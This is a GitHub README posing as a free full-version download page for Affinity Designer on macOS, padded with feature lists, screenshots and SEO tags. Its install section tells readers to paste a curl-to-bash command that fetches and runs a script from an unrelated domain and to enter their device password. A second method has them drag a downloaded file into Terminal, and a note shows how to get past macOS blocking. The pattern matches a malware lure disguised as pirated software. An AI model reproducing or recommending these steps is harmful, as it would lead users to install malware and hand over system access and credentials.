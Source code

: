 <p align="center">
  <img src="https://cdn.jim-nielsen.com/macos/512/affinity-designer-2020-11-18.png?rf=1024" alt="Affinity Designer Mac Banner" />
</p>

<h1 align="center">Affinity Designer for macOS</h1>

<p align="center">
  🖌️ A professional-grade vector design and illustration tool for creatives, UI/UX designers, and artists on Mac.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/130" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Affinity Designer for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://affinityspotlight.com/assets/content/73v/1pc/pv5/new-14-inch-macbook-pro-with-magazine-layout-open-in-publisher-in-front-of-new-16-inch-macbook-pro-with-affinity-photo-open--article-sm@2x.jpg" alt="Affinity Designer Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Affinity Designer?

**Affinity Designer** is a premium vector and graphic design application created for macOS professionals who need powerful tools, precise control, and a fast, intuitive interface. Whether you’re designing logos, user interfaces, concept art, or print materials — Affinity Designer delivers all the power of legacy tools in a more efficient package.

Unlike subscription-based alternatives, Affinity Designer provides full access to a wide set of tools, including pixel preview, unlimited artboards, and advanced typography. It's trusted by creative professionals for its non-destructive workflows and ultra-responsive rendering engine.

Fully optimized for **Apple Silicon (M1/M2/M3)** and compatible with the latest versions of macOS — **Sonoma**, **Ventura**, and **Monterey** — this app is ready for modern creative work on any Mac.

---

## ✅ Why Choose Affinity Designer?

- ✏️ **Vector & Pixel Tools** – Switch between vector and raster workspaces instantly  
- 🎨 **Unlimited Artboards** – Design multiple layouts or screens in one document  
- 🧠 **Non-Destructive Editing** – Keep your original intact while experimenting  
- ⚡ **Metal-Accelerated** – Blazing fast rendering and real-time adjustments  
- 🖋️ **Advanced Typography** – Full control over text styles and spacing  
- 🧩 **CMYK, RGB, LAB** – Print- and screen-ready color support  
- 🖥️ **macOS Native UI** – Clean, responsive interface with drag-and-drop support  
- 💡 **One-Time Purchase** – No subscriptions, full-feature access  

> For illustrators, UI designers, and creative professionals — **Affinity Designer** combines power, speed, and precision in one beautifully designed app.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://affinityspotlight.com/assets/content/mkt/q6s/ggj/affinity-designer-running-on-macos-monterey--article-sm@2x.jpg" alt="Affinity Designer Vector Tools Screenshot" />
  <br><br>
  <img src="https://cdn.serif.com/affinity/img/designer/home/0322/artboards/artboards-designer-041120220926--lg@2x.jpg" alt="Affinity Designer UI Design Screenshot" />
</p>

---

## 🚀 Key Features

- 🧩 Professional vector drawing tools  
- 🖌️ Raster and pixel editing modes  
- 🖥️ Multiple display and artboard support  
- ⚙️ Real-time effects and transformations  
- 📏 Precision guides and snapping  
- 🧠 Smart object organization  
- 🖋️ Font and style management  
- 🖥️ Fully Apple Silicon native  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Affinity Designer under "App Management"

---

## 🔍 Tags

```text
affinity designer mac download, affinity designer for macbook, vector design app macos, affinity for m1 mac, affinity designer full version, download affinity designer macos, affinity designer ventura compatible, ui design software mac, affinity illustrator tool mac, mac vector graphics editor, affinity designer apple silicon, affinity designer macbook pro, graphic design mac m1, affinity raster and vector, affinity designer standalone installer
